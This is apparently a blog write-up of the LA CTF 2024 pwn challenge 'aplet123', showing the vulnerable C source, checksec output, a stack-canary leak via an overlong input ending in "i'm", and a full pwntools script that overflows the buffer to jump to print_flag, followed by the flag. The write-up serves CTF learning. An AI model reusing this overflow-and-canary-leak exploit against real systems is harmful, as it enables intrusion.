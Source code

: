 +++
title = 'LA CTF 2024 - pwn/aplet123'
date = 2024-02-21T17:20:12-05:00
draft = false
+++

We are given a binary and source code. Taking a look at the source code:


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

void print_flag(void) {
  char flag[256];
  FILE *flag_file = fopen("flag.txt", "r");
  fgets(flag, sizeof flag, flag_file);
  puts(flag);
}

const char *const responses[] = {"L",
                                 "amongus",
                                 "true",
                                 "pickle",
                                 "GINKOID",
                                 "L bozo",
                                 "wtf",
                                 "not with that attitude",
                                 "increble",
                                 "based",
                                 "so true",
                                 "monka",
                                 "wat",
                                 "monkaS",
                                 "banned",
                                 "holy based",
                                 "daz crazy",
                                 "smh",
                                 "bruh",
                                 "lol",
                                 "mfw",
                                 "skissue",
                                 "so relatable",
                                 "copium",
                                 "untrue!",
                                 "rolled",
                                 "cringe",
                                 "unlucky",
                                 "lmao",
                                 "eLLe",
                                 "loser!",
                                 "cope",
                                 "I use arch btw"};

int main(void) {
  setbuf(stdout, NULL);
  srand(time(NULL));
  char input[64];
  puts("hello");
  while (1) {
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) {
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
}
```

```
checksec --file=aplet123 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols        No    0               3               aplet123
      
```

And taking a look at the binary with checksec we see that we have PIE turned off but we have a stack canary.


```c
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
```

We see that we are using gets which gives us a buffer overflow. Remeber that strstr retrusns a pointer to the first occuraence of the sequence we are seraching for. So if our input contains 'i'm' at the end, then we can read past the buffer and this lets us leak the canary.


```python
target.sendline("A" * 69 + "i'm")
target.recvuntil("hi ")
canary = target.recv(7)
```

Recall that the least significant bit of the canary is a null byte. I believe this is to prevent the canary from being leaked if for example it is next to a string that is not null terminated in memroy that is being read.


Now that we have the canary,  we need to use the buffer overflow to overwrite the saved return address. 

Complete solve script:

```python3 
from pwn import *
context.log_level = "DEBUG"

printflag_addr = 0x4011e6


target = remote("chall.lac.tf", 31123)

target.recvuntil("hello")

target.sendline("A" * 69 + "i'm")

target.recvuntil("hi ")
canary = target.recv(7)

payload = b"A" * 72
payload += b'\x00' + canary
payload += b"A" * 8
payload += p64(printflag_addr)

target.sendline(payload)
target.sendline('bye')

target.interactive()
```

```
lactf{so_untrue_ei2p1wfwh9np2gg6}
```